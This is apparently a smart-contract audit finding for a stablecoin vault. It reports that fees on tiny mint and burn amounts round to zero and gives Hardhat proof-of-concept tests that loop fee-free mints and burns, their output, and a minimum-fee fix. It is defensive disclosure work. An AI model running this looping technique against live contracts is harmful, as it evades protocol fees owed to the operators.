 ## [Medium] Users can Mint and Burn small quantities without paying fees

### Severity

Medium Risk

### Date Modified

Jan 8th, 2024

### Summary

The protocol has no minimum fee per transaction. If the result of the fee calculation is 0, users can mint and burn without paying a fee. This happens for small amounts, but the user can create a loop to continue minting/burning for free.

### Vulnerability Details (PoC)

To prove the vulnerability, we created 2 tests: 1 for minting and 1 for burning. In both, the fees to be paid are 0. For example, in the burning test, it is not even necessary to `approve` a transaction to the vault, as there is no fee transaction.

First, set the timeout to 0 in the hardhat.config.js

```
module.exports = {
  solidity: "0.8.17",
  mocha: {
    timeout: 0,
  },
};

```

Execute the test. We are using small quantities as this is just a test:

```
describe.only("Audit Test: ", async () => {
    it("Mint without paying fees", async () => {
      // 1. Set the variables
      const collateral = ethers.utils.parseEther("1");
      const mintedValue = ethers.utils.parseEther("0.0000000000000001");

      const mintingFee = mintedValue.mul(PROTOCOL_FEE_RATE).div(HUNDRED_PC);

      console.log("mintingFee: ", mintingFee);

      // 2. User send collateral
      await user.sendTransaction({ to: Vault.address, value: collateral });

      // 3. Mint Euros
      const mintValue = ethers.utils.parseEther("0.0000000000001");
      for (let i = 0; i < mintValue; i++) {
        await Vault.connect(user).mint(user.address, mintedValue);
      }

      // 4. Balances after minting:
      let minted = (await Vault.status()).minted;

      console.log("user balance: ", await EUROs.balanceOf(user.address));

      expect(mintingFee).to.equal(0);
      expect(await EUROs.balanceOf(user.address)).to.equal(minted);
    });

    it("Burn without paying fees", async () => {
      // 1. Set the variables
      const collateral = ethers.utils.parseEther("1");
      const burnedValue = ethers.utils.parseEther("0.0000000000000001");

      const burningFee = burnedValue.mul(PROTOCOL_FEE_RATE).div(HUNDRED_PC);

      console.log("burningFee: ", burningFee);

      // 2. User send collateral
      await user.sendTransaction({ to: Vault.address, value: collateral });

      // 3. Mint Euros
      await Vault.connect(user).mint(user.address, collateral);

      // 4. Burn: NO APPROVE NEEDED!!!
      const userBalance = await EUROs.balanceOf(user.address);
      const burnValue = ethers.utils.parseEther("0.0000000000001");
      for (let i = 0; i < burnValue; i++) {
        await Vault.connect(user).burn(burnedValue);
      }

      let finalBurnedValue = burnedValue.mul(burnValue);

      console.log("user balance: ", await EUROs.balanceOf(user.address));

      // 7. Check
      const result = userBalance.sub(finalBurnedValue);

      expect(burningFee).to.equal(0);
      expect(await EUROs.balanceOf(user.address)).to.equal(result);
    });
  });
```

```
➜  2023-12-the-standard git:(main) ✗ npx hardhat test


  SmartVault
    Audit Test:
mintingFee:  BigNumber { value: "0" }
user balance:  BigNumber { value: "10000000" }
      ✔ Mint without paying fees (3115568ms)
burningFee:  BigNumber { value: "0" }
user balance:  BigNumber { value: "999999999990000000" }
      ✔ Burn without paying fees (2438366ms)

```

### Impact

Allowing users to mint or burn without paying fees is a dangerous situation that imaginative developers could use to their advantage, as they could find ways to do the perfect script to operate in the protocol for free.

### Tools Used

Hardhat and manual check.

### Recommendations

It is relatively easy to set a minimum fee to be paid if the fee is 0:

```
function mint(address _to, uint256 _amount) external onlyOwner ifNotLiquidated {
    uint256 fee = _amount * ISmartVaultManagerV3(manager).mintFeeRate() / ISmartVaultManagerV3(manager).HUNDRED_PC();
    if (fee == 0) {
        fee = MIN_FEE;
    }
...(continue)
```

Another option, similar to `maxMintable`, is to set a `minMintable` and a `minBurnable`.
